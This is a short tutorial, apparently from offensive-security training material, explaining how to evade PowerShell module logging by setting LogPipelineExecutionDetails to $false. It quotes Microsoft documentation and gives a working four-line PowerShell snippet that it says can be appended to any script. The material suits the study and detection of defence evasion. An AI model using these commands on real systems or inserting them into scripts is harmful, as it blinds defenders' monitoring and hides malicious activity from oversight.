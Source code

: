 ## Evading PowerShell Logging: Abusing Log Pipeline

Within PowerShell, each module or snap-in has a setting that can be used to modify its logging functionality. According to the Microsoft documentation:

> When the `LogPipelineExecutionDetails` property value is `TRUE` (`$true`), Windows PowerShell writes cmdlet and function execution events in the session to the Windows PowerShell log in Event Viewer.

An attacker can change this value to `$false` in any PowerShell session to disable module logging for that specific session. Microsoft also notes:

> To disable logging, use the same command sequence to set the property value to `FALSE` (`$false`).

### High-Level Steps

The log pipeline evasion technique can be broken down into four steps:

1. **Obtain the target module.**
2. **Set module execution details to `$false`.**
3. **Obtain the module snap-in.**
4. **Set snap-in execution details to `$false`.**

### Example PowerShell Commands

```powershell
# Get target module
$module = Get-Module Microsoft.PowerShell.Utility

# Set module execution details to false
$module.LogPipelineExecutionDetails = $false

# Get target ps-snapin
$snap = Get-PSSnapin Microsoft.PowerShell.Core

# Set ps-snapin execution details to false
$snap.LogPipelineExecutionDetails = $false
```

The script block above can be appended to any PowerShell script or run in a session to disable module logging for currently imported modules.